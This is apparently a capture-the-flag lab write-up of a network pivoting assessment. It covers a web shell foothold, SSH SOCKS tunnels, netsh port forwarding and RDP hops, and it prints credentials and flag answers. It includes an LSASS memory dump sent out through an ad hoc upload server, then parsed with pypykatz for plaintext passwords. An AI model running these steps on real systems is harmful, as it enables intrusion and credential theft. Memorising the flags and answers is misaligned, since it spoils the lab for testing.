# **Scenario**

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:

---

# **Objectives**

- Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
- Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
- Grab `any/all` flags that can be found.

# How i solved this lab !

Target IP : 10.129.7.218 

```php
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.7.218 -Pn -n -T4 --disable-arp-ping
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-25 05:06 -0400
Nmap scan report for 10.129.7.218
Host is up (1.0s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
```

Here is the network map of the lab that i discovered. Well the lab might be deeper than this but yeah Let’s gooo



## Webserver

With the `web shell`  provided by the previous team, i quickly determine a way that helps me access to webserver 

### Access webserver with ssh through `id_rsa`

Now i have the credential of `webadmin` !

**`Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.`**

> `webadmin`
> 



```php
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ nano id_rsa     
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ chmod 600 id_rsa 
```

#### Port Forwarding SSH to webserver

```php
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ ssh  -D 9050 -i id_rsa webadmin@10.129.7.218
```

### Gathering information



**Submit the credentials found in the user's home directory. (Format: user:password)**

> mlefay:Plain Human work!
> 





```php
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=3.90 ms
```

I found new host : `172.16.5.35`

**`Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.`**

> `172.16.5.35`
> 

## PIVOT-SRV01

### Gathering some information on this server

With the credentials discovered from the webserver user’s home i use it to login ssh in the PIVOT-SRV01 in the internal network.

```php
┌──(kali㉿kali)-[~]
└─$ proxychains ssh mlefay@172.16.5.35  
```



**`Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.`**

```php
mlefay@PIVOT-SRV01 C:\Users\mlefay>type C:\flag.txt 
S1ngl3-Piv07-3@sy-Day 
```

> `S1ngl3-Piv07-3@sy-Day`
> 

All services that is running on the `PIVOT-SRV01`

```php
PS C:\Users\mlefay> Get-NetTCPConnection | Where-Object {$_.State -eq "Established"} | Select-Object LocalAddress, LocalP
ort, RemoteAddress, RemotePort, State | Format-Table -AutoSize

LocalAddress LocalPort RemoteAddress RemotePort       State 
------------ --------- ------------- ----------       -----
172.16.5.35       3389 172.16.5.15        38406 Established
172.16.5.35         22 172.16.5.15        36464 Established

```

```php
PS C:\Users\mlefay> Get-Service | Where-Object {$_.Status -eq "Running"}

Status   Name               DisplayName
------   ----               -----------
Running  BFE                Base Filtering Engine
Running  BrokerInfrastru... Background Tasks Infrastructure Ser...
Running  CDPSvc             Connected Devices Platform Service
Running  CertPropSvc        Certificate Propagation
Running  COMSysApp          COM+ System Application
Running  CoreMessagingRe... CoreMessaging                          
Running  CryptSvc           Cryptographic Services
Running  DcomLaunch         DCOM Server Process Launcher
Running  Dfs                DFS Namespace
Running  DFSR               DFS Replication
Running  Dhcp               DHCP Client
Running  DHCPServer         DHCP Server
Running  DiagTrack          Connected User Experiences and Tele...
Running  Dnscache           DNS Client
Running  DPS                Diagnostic Policy Service              
Running  DsmSvc             Device Setup Manager
Running  DsSvc              Data Sharing Service
Running  EventLog           Windows Event Log
Running  EventSystem        COM+ Event System
Running  FontCache          Windows Font Cache Service
Running  gpsvc              Group Policy Client
Running  IKEEXT             IKE and AuthIP IPsec Keying Modules
Running  iphlpsvc           IP Helper
Running  KeyIso             CNG Key Isolation
Running  LanmanServer       Server
Running  LanmanWorkstation  Workstation
Running  LicenseManager     Windows License Manager Service
Running  lmhosts            TCP/IP NetBIOS Helper                  
Running  LSM                Local Session Manager
Running  mpssvc             Windows Defender Firewall
Running  MSDTC              Distributed Transaction Coordinator
Running  NcbService         Network Connection Broker
Running  Netlogon           Netlogon
Running  netprofm           Network List Service
Running  NlaSvc             Network Location Awareness
Running  nsi                Network Store Interface Service
Running  PcaSvc             Program Compatibility Assistant Ser...
Running  PlugPlay           Plug and Play
Running  PolicyAgent        IPsec Policy Agent                     
Running  Power              Power
Running  ProfSvc            User Profile Service
Running  RasMan             Remote Access Connection Manager
Running  RpcEptMapper       RPC Endpoint Mapper
Running  RpcSs              Remote Procedure Call (RPC)
Running  SamSs              Security Accounts Manager
Running  Schedule           Task Scheduler
Running  SENS               System Event Notification Service
Running  SessionEnv         Remote Desktop Configuration
Running  ShellHWDetection   Shell Hardware Detection               
Running  Spooler            Print Spooler
Running  ssh-agent          OpenSSH Authentication Agent
Running  sshd               OpenSSH SSH Server
Running  SstpSvc            Secure Socket Tunneling Protocol Se...
Running  SysMain            SysMain
Running  SystemEventsBroker System Events Broker
Running  tapisrv            Telephony
Running  TermService        Remote Desktop Services
Running  Themes             Themes
Running  TimeBrokerSvc      Time Broker
Running  TrkWks             Distributed Link Tracking Client       
Running  UALSVC             User Access Logging Service
Running  UmRdpService       Remote Desktop Services UserMode Po...
Running  UserManager        User Manager
Running  UsoSvc             Update Orchestrator Service
Running  vds                Virtual Disk
Running  VGAuthService      VMware Alias Manager and Ticket Ser...
Running  VM3DService        VMware SVGA Helper Service
Running  VMTools            VMware Tools
Running  W32Time            Windows Time                           
Running  Wcmsvc             Windows Connection Manager
Running  WinHttpAutoProx... WinHTTP Web Proxy Auto-Discovery Se...
Running  Winmgmt            Windows Management Instrumentation
Running  WinRM              Windows Remote Management (WS-Manag...
Running  WpnService         Windows Push Notifications System S...

```

#### Connect to server using Remote Desktop Services

With credentials found on webserver, I can use them to login RDP on host `PIVOT-SRV01`

```php
proxychains xfreerdp /v:172.16.5.35  /u:mlefay  /p:'Plain Human work!'
```



#### Performing ping scanning on other subnet of the `server01`

```powershell
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"
```



I found new host : `172.16.6.25` ,`172.16.6.45` (not really sure this host :v)

### **OS Credential Dumping: LSASS Memory**

With this technique, we can gather credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). 

Information from `MITRE | ATT&CK` : After a user logs on, the system generates and stres a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

I know the way i did here to dump LSASS is quite basic but it is really the only technique i know now :v

If you know anymore or more advanced tech pls mail me thru: [`longduiga0123@gmail.com`](mailto:longduiga0123@gmail.com) 

#### Checkout process id of LSASS

```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1307      31     8116      48728       2.86    668   0 lsass
```

#### File transferring

Here i want to transfer the file from `SVR01` → `webserver`→ `attacker machine` 

Hosting webserver :

```python
webadmin@inlanefreight:~$ python3 -c "
> import http.server
> import sys
> class UploadHandler(http.server.SimpleHTTPRequestHandler):
>     def do_POST(self):
>         length = int(self.headers['Content-Length'])
>         with open('lsass_downloaded.dmp', 'wb') as f:
>             f.write(self.rfile.read(length))
>         self.send_response(200)
>         self.end_headers()
>         print('\n[+] Đã tải xong file lsass_downloaded.dmp!')
>         sys.exit(0)
> http.server.HTTPServer(('0.0.0.0', 8000), UploadHandler).serve_forever()
> "

```

Starting exchange file :

```php
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.15:8000/" -Method Post -InFile "C:\Windows\Tasks\lsass.d
mp"

StatusCode        : 200
StatusDescription : OK
Content           : {}
RawContent        : HTTP/1.0 200 OK
                    Date: Mon, 25 May 2026 11:21:10 GMT
                    Server: SimpleHTTP/0.6 Python/3.8.10

Headers           : {[Date, Mon, 25 May 2026 11:21:10 GMT], [Server, SimpleHTTP/0.6 Python/3.8.10]}
RawContentLength  : 0

```

When file is located at webserver, i again host a webserver on port 8000

```php
webadmin@inlanefreight:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.16.44 - - [25/May/2026 07:26:37] code 400, message Bad request version ('>o')
10.10.16.44 - - [25/May/2026 07:26:37] "ü+1ddüvkUÒTbKëøÂy 2e_úOvô >o" 400 -
10.10.16.44 - - [25/May/2026 07:26:45] "GET /lsass_downloaded.dmp HTTP/1.1" 200 -
```

From attacker machine enter `wget` to get the lsass dump file !

```php
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ wget http://10.129.7.218:8000/lsass_downloaded.dmp
--2026-05-25 07:48:54--  http://10.129.7.218:8000/lsass_downloaded.dmp
Connecting to 10.129.7.218:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 50017131 (48M) [application/octet-stream]
Saving to: ‘lsass_downloaded.dmp.’

lsass_downloaded.dmp.           
```

#### **Dumping LSASS Memory with `mimikatz`**

In linux, we can use tool call [`pypykatz`](https://github.com/skelsec/pypykatz)  which is `Mimikatz` implementation in Python !

```php
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ pipx install pypykatz     

  
┌──(kali㉿kali)-[~/Downloads/HTB/pivoting]
└─$ pypykatz lsa minidump lsass_downloaded.dmp | grep -i -E "username|password"
 ....................................................................................................................................................................................................snip........................................

 username vfrank
  Username: vfrank
  username vfrank
  password None
  password (hex)
  Username: vfrank
  Password: Imply wet Unmasked!
  password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
  username vfrank
  password None
  password (hex)
................................................................................................................................................................................................................................................................................................................................
```

**`In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?`**

> `vfrank`
> 

### Gathering information on host `172.16.6.45`

This host really suspicious but i don’t have time for it now :V

```php
PS C:\Users\mlefay> nbtstat -A 172.16.6.45
    
Ethernet0:
Node IpAddress: [172.16.5.35] Scope Id: []

    Host not found.

Ethernet1 2:
Node IpAddress: [172.16.6.35] Scope Id: []

    Host not found.
```

## PIVOTWIN10 (Host `172.16.6.25` )

### Gathering information

Nbtstat is a Windows command-line utility used to display NetBIOS over TCP/IP (NetBT) statistics, name tables, and cached name resolutions to troubleshoot network naming issues. 

Well this tool is really helpful on gathering general information about target in windows.

```php
PS C:\Users\mlefay> nbtstat -A 172.16.6.25

Ethernet0:
Node IpAddress: [172.16.5.35] Scope Id: []


Host not found.


Ethernet1 2:
Node IpAddress: [172.16.6.35] Scope Id: []


       NetBIOS Remote Machine Name Table

   Name               Type         Status
---------------------------------------------
PIVOTWIN10     <00>  UNIQUE      Registered
INLANEFREIGHT  <00>  GROUP       Registered
PIVOTWIN10     <20>  UNIQUE      Registered

MAC Address = A2-DE-AD-BD-61-61
```
```
PS C:\Users\mlefay>
```

Checking if `rdp`service is running….

```powershell
PS C:\Users\mlefay> Test-NetConnection -ComputerName 172.16.6.25 -Port 3389

ComputerName     : 172.16.6.25
RemoteAddress    : 172.16.6.25
RemotePort       : 3389
InterfaceAlias   : Ethernet1 2
SourceAddress    : 172.16.6.35
TcpTestSucceeded : True
```

### **Create  Port Forwarding to 172.16.6.25 with `netsh`**

```powershell
netsh.exe interface portproxy add v4tov4 listenport=2005 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25
```

This configuration creates a local port proxy on the pivot server that listens on port `2005` and forwards your incoming Kali RDP traffic directly to the internal target (`172.16.6.25:3389`) using `vfrank`'s credentials.

```powershell
proxychains xfreerdp /v:172.16.5.35:2005  /u:vfrank /p:'Imply wet Unmasked!'
```





Damn ! New Subnet !!!

New subnet : 172.16.10.x

**`For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.`** 



> N3tw0rk-H0pp1ng-f0R-FuN
> 

**`Submit the contents of C:\Flag.txt located on the Domain Controller.`**



> 3nd-0xf-Th3-R@inbow!
> 

### Subnet 172.16.10.x/16

Performing ping scanning:

```powershell
for /L %i in (1 1 254) do ping 172.16.10.%i -n 1 -w 100 | find "Reply"
```



```powershell
PS C:\Users\vfrank> nbtstat -A 172.16.10.5 
```

